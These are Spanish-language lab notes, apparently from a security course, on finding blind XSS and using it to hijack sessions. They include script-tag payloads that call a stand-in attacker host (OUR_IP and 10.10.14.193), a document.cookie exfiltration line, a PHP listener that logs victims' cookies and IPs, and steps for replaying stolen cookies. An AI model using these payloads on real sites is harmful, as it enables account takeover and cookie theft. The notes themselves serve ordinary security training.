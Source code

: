 ###  **Session Hijacking** y **Blind XSS Detection**

---

#### **Session Hijacking (Secuestro de Sesión)**

**Concepto**  
El secuestro de sesión ocurre cuando un atacante obtiene las cookies de sesión de un usuario legítimo y las utiliza para acceder a su cuenta sin necesidad de conocer las credenciales.

1. **Cookies y sesiones**:
    
    - Las aplicaciones web modernas usan cookies para mantener sesiones activas.
    - Si un atacante obtiene acceso a las cookies de un usuario, puede suplantar su identidad en la aplicación.
2. **Proceso general**:
    
    - Utilizar una vulnerabilidad de XSS para inyectar un payload malicioso que capture las cookies.
    - Transmitir las cookies al servidor del atacante para explotarlas.

---

#### **Blind XSS (XSS Ciego)**

**Concepto**  
Una vulnerabilidad Blind XSS ocurre cuando el atacante no puede visualizar directamente cómo se procesa la entrada que inyecta. Esto sucede, por ejemplo, cuando los datos son visualizados en un panel restringido, como el de un administrador.

1. **Características de Blind XSS**:
    
    - Generalmente afecta formularios que solo el administrador puede ver (e.g., tickets de soporte, formularios de contacto).
    - El atacante no tiene acceso directo para comprobar la ejecución del script.
2. **Método para detección**:
    
    - Incluir un payload con un `<script>` que apunte a un servidor controlado por el atacante.
    - Si el script es ejecutado, el servidor recibirá una petición, indicando que el campo es vulnerable.

**Ejemplo de Payload**:

```html
<script src="http://OUR_IP/username"></script>
```

---

#### **Preparación del Entorno**

1. **Configuración de un servidor de escucha**:
    
    - Crear un servidor local con PHP:
        
        ```bash
        mkdir /tmp/tmpserver
        cd /tmp/tmpserver
        sudo php -S 0.0.0.0:80
        ```
        
2. **Uso de un Payload**:
    
    - Insertar el payload en diferentes campos del formulario, indicando el nombre del campo en la URL del script para identificar cuál es vulnerable.
    - Ejemplo:
        
        ```html
        <script src="http://OUR_IP/fullname"></script>
        <script src="http://OUR_IP/username"></script>
        ```
        
3. **Validaciones adicionales**:
    
    - Campos como correos electrónicos pueden ser validados en el backend y no ser vulnerables.
    - Los campos de contraseña, debido al hashing, también suelen ser seguros.

---

#### **Explotación: Session Hijacking**

1. **Creación del Payload de Cookie Stealing**:
    
    - JavaScript para capturar las cookies y enviarlas al servidor atacante:
        
        ```javascript
        new Image().src='http://OUR_IP/index.php?c='+document.cookie;
        ```
        
2. **Hostear el Payload en el servidor**:
    
    - Crear un archivo `script.js` con el contenido anterior:
        
        ```javascript
        new Image().src='http://OUR_IP/index.php?c='+document.cookie;
        ```
        
    - Cambiar el payload del XSS para que apunte a este script:
        
        ```html
        <script src="http://OUR_IP/script.js"></script>
        ```
        
3. **PHP para recibir y almacenar cookies**:
    
    - Guardar un archivo `index.php` con el siguiente código:
        
        ```php
        <?php
        if (isset($_GET['c'])) {
            $list = explode(";", $_GET['c']);
            foreach ($list as $key => $value) {
                $cookie = urldecode($value);
                $file = fopen("cookies.txt", "a+");
                fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
                fclose($file);
            }
        }
        ?>
        ```
        
4. **Ejecución del ataque**:
    
    - Esperar a que el administrador o víctima visite la página vulnerable.
    - Verificar en los logs o en el archivo `cookies.txt` para obtener las cookies.

---

#### **Uso de las Cookies Robadas**

1. **Simulación de la sesión de la víctima**:
    
    - Navegar al sitio objetivo (e.g., `/login.php`).
    - Abrir las herramientas de desarrollador en el navegador (Shift + F9 en Firefox).
    - Agregar una nueva cookie:
        - **Nombre**: Parte antes del `=`.
        - **Valor**: Parte después del `=`.
2. **Acceso como víctima**:
    
    - Refrescar la página para simular la sesión.

---

### **Notas finales**

- **Blind XSS** requiere de pruebas exhaustivas para identificar campos vulnerables.
- **Session Hijacking** puede ser detectado y prevenido con medidas como:
    - Uso de cookies seguras (`HttpOnly`, `Secure`, `SameSite`).
    - Validaciones en el backend y restricciones en las entradas del usuario.
    - Monitoreo de actividades sospechosas.


### Ejercicio

Probamos todos los campos con 
`"><script src=http://10.10.14.193:8080/tetas></script>`
y vemos que el campo email es vulnerable
por lo que procedemos a injectar el script que obtendra la cookie del administrador del sitio
